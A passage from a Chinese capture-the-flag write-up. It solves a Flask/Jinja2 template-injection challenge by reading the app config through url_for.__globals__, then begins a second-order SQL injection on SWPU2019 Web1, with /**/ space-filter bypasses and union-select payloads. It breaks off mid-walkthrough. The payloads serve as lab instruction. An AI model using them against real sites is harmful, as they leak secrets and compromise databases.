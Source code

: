 ```
url/shrine/{{7*7}}
```

![](https://i.loli.net/2021/07/15/xiPrFJYpwMsoVS6.png)

​	上面分析看到`app.config['FLAG'] = os.environ.pop('FLAG')` 	注册了一个名为FLAG的config，正常的话使用{{config}}就可以看到app.config的所有内容了
​	但是在后面的黑名单里`['config','self']`过滤了,并且`s.replace('(', '').replace(')', '')`将括号置换为空（那么正常流程如`{{[].class.bases[0].subclasses()}}`就用不了了）
也就是考点所在

​	知识点：利用python的内置函数：如`url_for`和`get_flashed_messages`

```
url/shrine/{{url_for.__globals__}} 
```

![](https://i.loli.net/2021/07/15/ouQYIBxthLEJAHk.png)

在源码里定义的是app.config，搜索一下可以看到右上角第二行有个current_app，调用一下其下的config

```
url/shrine/{{url_for.__globals__['current_app'].config}}
或者是 url/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```

![得到flag啦](https://i.loli.net/2021/07/15/ox4mcfGqSdD968C.png)



### [SWPU2019]Web1——sql注入

注册-登录-只看到个申请发布广告，要么在注册、登录框，要么就在这个申请发布广告里啦，先进来看看吧

![](https://i.loli.net/2021/07/15/EyacuifPH6SwxFX.png)

一开始还以为是xss的--内容部分也确实可以写xss,但一直没反应；后面随便测试的时候输了一下123'啥的，点击广告详情就看到sql语句报错
![](https://i.loli.net/2021/07/15/6GiXQlIV7sRDNqr.png)
	经过尝试发现是在广告名处存在二次注入，也就是说sql语句是已经被存储的，再次读取时才会进入sql查询语句中。此处我们填写广告申请的时候没有出现sql注入，而当我们发布完毕，再次点击查看广告详情的时候就造成二次注入。

​	fuzz一下发现过滤了`注释符`、`空格`、`or`以及`order`等一些关键词，空格可以用/**/绕过；or可以用异或或者换一种注入手法；order这些关键词被ban那一些查询语句就不行了，得找替代；不需要注释符其实也没事，只需要保证语句的正常返回即可

​	那么来构造一下语句，继续单引号，因为注释符被ban，再加一个单引号进行闭合（/**/绕过空格过滤）：

```
1'/**/union/**/select/**/1,2,3/**/'
```

![](https://i.loli.net/2021/07/15/gWJHnIsr3QFyvLB.png)

可以看到报错字段数目不对，一直测试就行，测试到22就ok

```
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/'
```
